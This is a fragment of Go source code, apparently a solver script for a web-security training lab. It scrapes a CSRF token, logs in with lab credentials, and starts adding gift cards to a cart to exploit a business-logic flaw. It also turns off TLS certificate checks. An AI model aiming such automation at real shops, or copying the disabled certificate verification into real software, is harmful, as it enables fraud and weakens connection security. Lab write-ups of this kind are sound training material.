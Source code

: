```go
	body, err := ioutil.ReadAll(resp.Body)
	if err != nil {
		log.Fatalln(err)
	}
	sb := string(body)

	// Extract the CSRF token from the login page
	html := soup.HTMLParse(sb)
	if html.Error != nil {
		log.Fatalln(html.Error)
	}
	csrfElement := html.Find("input", "name", "csrf")
	csrfToken := csrfElement.Attrs()["value"]

	// Grab session cookie
	cookies := resp.Cookies()
	sessionToken := cookies[0]

	return sessionToken, csrfToken
}

func Login(sessionToken *http.Cookie, csrfToken string) *http.Cookie {

	// Log in to the web application and return the authenticated session token
	client := http.Client{
		Timeout: 60 * time.Second,
		Transport: &http.Transport{
			TLSHandshakeTimeout: 20 * time.Second,
		},
		CheckRedirect: func(req *http.Request, via []*http.Request) error {
			return http.ErrUseLastResponse
		},
	}
	creds := url.Values{"csrf": {csrfToken}, "username": {"wiener"}, "password": {"peter"}}
	req, err := http.NewRequest("POST", fmt.Sprintf("%s/login", URL), strings.NewReader(creds.Encode()))
	if err != nil {
		log.Fatalln(err)
	}
	req.AddCookie(sessionToken)
	resp, err := client.Do(req)
	if err != nil {
		log.Fatalln(err)
	}
	cookie := resp.Cookies()[0]
	return &http.Cookie{Name: cookie.Name, Value: cookie.Value}
}

func AddGiftCardsToCart(sessionToken *http.Cookie, quantity int) {

	client := http.Client{
		Timeout: 60 * time.Second,
		Transport: &http.Transport{
			TLSHandshakeTimeout: 20 * time.Second,
			TLSClientConfig:     &tls.Config{InsecureSkipVerify: true},
		},
	}
	body := url.Values{"productId": {"2"}, "redir": {"PRODUCT"}, "quantity": {strconv.Itoa(quantity)}}
	req, err := http.NewRequest("POST", fmt.Sprintf("%s/cart", URL), strings.NewReader(body.Encode()))
	if err != nil {
		log.Fatalln(err)
```